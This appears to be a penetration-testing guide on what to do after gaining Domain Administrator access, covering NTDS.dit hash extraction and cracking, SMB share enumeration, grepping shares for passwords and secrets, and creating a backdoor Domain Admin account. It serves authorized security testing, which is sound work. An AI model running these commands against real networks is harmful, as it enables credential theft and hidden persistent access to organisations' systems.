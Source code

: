 # Post-Domain Compromise Strategy

## 🎯 Overview

**"WE OWN THE DOMAIN - NOW WHAT?"** 🦝

After achieving Domain Administrator access, the penetration test enters a critical phase where the goal shifts from gaining access to **demonstrating maximum value to the client** and ensuring **comprehensive documentation** of the compromise.

## 🏆 Primary Objectives

### 1. **Provide Maximum Value to the Client**
The client needs to understand the **full scope and impact** of the compromise:

#### Put Your Blinders On and Do It Again
- **Repeat the attack chain** from a different entry point
- **Validate multiple attack vectors** to show systemic vulnerabilities
- **Test additional user accounts** and privilege escalation paths
- **Document alternative compromise methods** for comprehensive remediation

#### NTDS.dit Extraction and Password Cracking
```bash
# Extract the Active Directory database
secretsdump.py -ntds ntds.dit -system system.hive LOCAL

# Crack extracted password hashes
hashcat -m 1000 ntds_hashes.txt rockyou.txt --potfile-disable -o cracked_passwords.txt

# Analyze password patterns
python3 ntlm-analyzer.py ntds_hashes.txt
```

#### Share Enumeration for Sensitive Information
```bash
# Comprehensive share enumeration
crackmapexec smb target_range -u admin -p password --shares

# Mount and analyze sensitive shares
smbclient //target/share -U domain/admin%password
find . -name "*.xlsx" -o -name "*.docx" -o -name "*.pdf" | head -20

# Search for sensitive files
grep -r -i "password\|credential\|secret" /mnt/shares/ 2>/dev/null
```

### 2. **Establish Persistence**
Ensure continued access for the duration of the engagement:

#### Domain Administrator Account Creation
```bash
# Create backdoor domain admin account
net user backdoor P@ssw0rd123! /add /domain
net group "Domain Admins" backdoor /add /domain

# ⚠️ CRITICAL: Document account creation for client cleanup
# DO NOT FORGET TO DELETE IT after engagement completion
```
